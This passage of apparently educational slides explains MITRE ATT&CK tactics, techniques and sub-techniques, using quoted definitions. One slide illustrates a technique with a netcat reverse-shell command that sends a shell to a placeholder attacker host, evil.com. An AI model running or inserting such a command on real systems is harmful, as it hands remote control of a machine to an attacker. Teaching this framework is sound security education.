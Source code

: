 
---

::: title
 #### TTPs: Tactics 
:::

::: left

- Tactics represent the ‘why’ of an ATT&CK technique or sub-technique.
-  It is the adversary’s tactical goal: the reason for performing an action. For example, an adversary may want to achieve credential access.”
- Example: Disrupting Iran’s nuclear program


:::

::: right
![[0x01_slide_54_image.png|200]]


:::

---

::: title
 #### TTPs: Techniques
:::

::: left

- “Techniques represent “how” an adversary achieves a tactical goal by performing an action. For example, an adversary may dump credentials to achieve credential access.”
- This includes the tools used, and you will 
sometimes hear me slip up and say 
tactics tools and procedures


:::

::: right
<center>

`nc -e /bin/sh evil.com 1234`

:::

---

::: title
 #### TTPs: Sub-Technique 
:::

::: left

- Sub-techniques are a more specific description of the adversarial behavior used to achieve a goal. They describe behavior at a lower level than a technique. For example, an adversary may dump credentials by accessing the Local Security Authority (LSA) Secrets.”
